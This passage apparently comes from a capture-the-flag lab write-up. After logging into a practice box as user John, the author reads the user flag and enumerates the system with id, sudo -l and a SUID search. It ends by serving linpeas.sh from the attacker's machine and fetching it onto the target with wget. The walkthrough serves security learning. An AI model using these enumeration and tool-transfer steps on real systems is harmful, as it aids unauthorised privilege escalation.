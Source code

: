 ```

0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$
```

We're in! User flag here we come:

```
john@exploitable:~$ pwd
/home/john
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
<REDACTED>
```

One flag down, one to go.

<br>

## Server Digging

The first thing I usually check is the /etc/passwd file to see what users are on the system and in this case it's just root and John.

Checking out the `id` command to see which groups John is a member of:

```
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

He's a member of sudo, but we don't have his password yet and can't see what he's allowed to do.

`sudo -l`:

```
[sudo] password for john: 
```

Maybe there is a quick privilege escalation using a SUID file? I run:

`find / -type f -perm /4000 2> /dev/null`

but nothing interesting comes back.

Time to run a linpeas scan and see what we can find. I start up a http server on my system with:

`python3 -m http.server 80`

and then download the file on the target system by running:

`wget http://<MY IP>/linpeas.sh`:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.157.225 - - [30/Jan/2022 22:50:25] "GET /linpeas.sh HTTP/1.1" 200 -
```
